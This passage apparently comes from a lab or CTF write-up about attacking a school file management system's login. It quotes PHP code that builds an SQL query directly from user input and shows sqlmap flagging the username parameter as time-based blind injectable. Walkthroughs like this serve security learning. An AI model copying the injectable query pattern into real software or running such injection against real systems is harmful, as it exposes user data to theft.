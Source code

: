 Users
```
admin
UndetectableMark
Stev1992
```

with research find documented vulnerability the same as we had found
maybe can dump the contents of the database using this

https://www.exploit-db.com/exploits/48437

and the source code 

```txt
https://www.sourcecodester.com/sites/default/files/download/razormist/school-file-management-system.zip
```

we see from the source code the structure of the SQL query

```php
...SNIP

$query = mysqli_query($conn, "SELECT * FROM `user` WHERE `username` = '$username' && `password` = '$password'") or die(mysqli_error());

..SNIP
```

let's use `sqlmap` to automate the injection to dump this database. I create a local file admin.req with the request content from burp

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529155325.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529155325.png){:.glightbox}

I clean up the username parameter for sqlmap, because it does not like parameters with manual sql injection attempts. The updated parameters line is:

```bash
username=admin&password=admin&login=
```

now run `sqlmap`

```bash
> sqlmap -r admin.req

...SNIP

[10:48:15] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable


...SNIP

```

although it does not proceed with the injection.
